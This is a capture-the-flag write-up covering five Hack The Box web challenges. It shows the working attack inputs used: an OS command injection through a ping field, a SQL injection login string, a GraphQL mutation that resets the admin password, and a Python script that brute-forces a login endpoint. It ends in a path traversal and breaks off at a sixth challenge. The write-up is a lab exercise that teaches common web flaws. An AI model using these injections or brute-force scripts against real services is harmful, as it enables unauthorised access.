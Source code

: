 # SOME WEB CHALLENGES WRITE UPS #

### 1. Trapped Source ###
- Read the soure code, we will find the secret PIN.<br/ >
```html
<script>
    window.CONFIG = window.CONFIG || {
        buildNumber: "v20190816",
        debug: false,
        modelName: "Valencia",
        correctPin: "8291",
    }
</script>
```
- Now that we got the pin, enter it to the safe-like thing, and get the flag.
**flag: HTB{V13w_50urc3_c4n_b3_u53ful!!!}**

### 2. Gunhead ###
#### Overview
![image](https://user-images.githubusercontent.com/109911533/227821590-4271f2e8-c0a8-4757-94e1-6cc0ca2a5dc6.png)<br />

- Navigate to the console, we will see all the command that we can execute on the website.

![image](https://user-images.githubusercontent.com/109911533/227823546-897b8e3f-5d65-45ad-a09e-a3db03749015.png)<br />

- Given a source code of the website, we can read through all of them, which we would stumble over this.<br />

![image](https://user-images.githubusercontent.com/109911533/227823815-1f86dd9f-68ac-4670-8c6f-ab0292ec1370.png)

- The ```'ping -c 3 '.$this->ip``` does a ping to the <ip>, which is our data. Without any filter, this could potential lead to a OS command injection.<br />
- Using ```;``` to end the previous command, we can now inject any command for the server to execute.
```/ping 127.0.0.1; ls -la /```<br />
- This command should return every file in the directory
  
 ![image](https://user-images.githubusercontent.com/109911533/227825146-967bdaca-a176-41bc-bf75-a6386e6daf02.png)<br />
  
- Now we just need to ```;cat /flag.txt``` to receive the flag.<br />
**flag: HTB{4lw4y5_54n1t1z3_u53r_1nput!!!}**
    
### 3. Drobots ###
- This challenge is pretty simple, if you've learned about SQLi, then you should notice there's a SQLi vulnerability here, in the database.py file.<br />
    
![image](https://user-images.githubusercontent.com/109911533/228113328-5b909aa5-01fd-436b-b525-f4d472d2cbfd.png)<br />
    
- Using ```admin" -- ``` should do the trick.<br />
**flag: HTB{p4r4m3t3r1z4t10n_1s_1mp0rt4nt!!!}**

### 4. Passman ###
- This challenge is an IDOR vunerability chall.<br />
- Reading through all the file i noticed that in the ```GraphqlHelper.js```, all the function forrmat are the same. And also, there's a function called UpdatePassword, maybe we can do something with it??<br />
    
![image](https://user-images.githubusercontent.com/109911533/228114651-ba3ec6a1-dacf-46b1-b3ff-063c08b6a13f.png)<br />

- Using BurpSuite, we can first use the addphrase function in order to get the format of the query. Then, edit it using the UpdatePassword variables, turning it into an UpdatePassword function, which should allow us to change the admin password.<br />

![image](https://user-images.githubusercontent.com/109911533/228115190-6f67bc26-fa02-44d2-8e6d-c8d700e8dbf5.png)<br />

- Change the query into this.<br />
```{
  "query": "mutation($username: String!, $password: String!) { UpdatePassword(username: $username, password: $password){ message } }",
  "variables": {
    "username": "admin",
    "password": "123"
  }
```
- This should change the admin password to 123, and we can verify it with the response.<br />

![image](https://user-images.githubusercontent.com/109911533/228115508-cdd021d3-3795-43b9-94f7-27d46c90a0dd.png)<br />
 
- Login as admin, we get the flag.<br />
**flag: HTB{1d0r5_4r3_s1mpl3_4nd_1mp4ctful!!}**
    
 ### 5. Orbital ###
- For this challenge, i think there are more simple ways to do it than i did, but i cant think of anything so i chose to bruteforce the password.<br />
- The password is MD5 hashed so at first i think i need to hash all the password to MD5, but no, the web page will take my password input, hash it, and compare it to the original password. I chose ```rockyou.txt``` for this one since it HacktheBox and ```rockyou.txt``` contains the most common passwords.<br />
- Here is the scripts.<br />
```py
import requests

url = "http://68.183.37.122:32168/api/login"

with open("rockyou.txt", errors="ignore") as file:
    passwords = [l.strip() for l in file.readlines()]

    for password in passwords:
        print('Testing password: "{}"'.format(password))

        data = {'username': 'admin', 'password': password}
        response = requests.post(url, json = data)

        if "Invalid" not in response.text:
            print(response.text)
            print("Password found: {}".format(password))
            break
```
- Running it for some times, should return the password, which is ```ichliebedich```.Now we login as admin.<br />

- Now we need to get the flag file. But the flag file is not in the ```flag.txt``` or anything else, but its in this file.<br />
![image](https://user-images.githubusercontent.com/109911533/228118532-d683962a-1036-48bf-be30-20d1a9f0b2a1.png)<br />
    
- Reading through all the source code again, you notice in the ```routes.py``` there's a funtion ```export```, which export a variables ```{communicationName}``` which is a variables that we can change, so maybe path traversal exploit?<br />
    
![image](https://user-images.githubusercontent.com/109911533/228118879-7114b43f-6767-4a27-bde5-aae25c2b9e7f.png)<br />

- Using burpsuite, we should be able to retrieve the flag.
    
![image](https://user-images.githubusercontent.com/109911533/228119016-788d73bd-521e-4d94-898a-b63baccbcdd8.png)<br />
    
- P/s: I think this chall was supposed to be time based SQLi, not brute forcing random sh*t xDDD, but oh well...
    
**flag: HTB{T1m3_b4$3d_$ql1_4r3_fun!!!}**

### 5. Didactic Octo Paddles ###
- This challenge is about JWT token and Node.js SSTI.<br />
- 



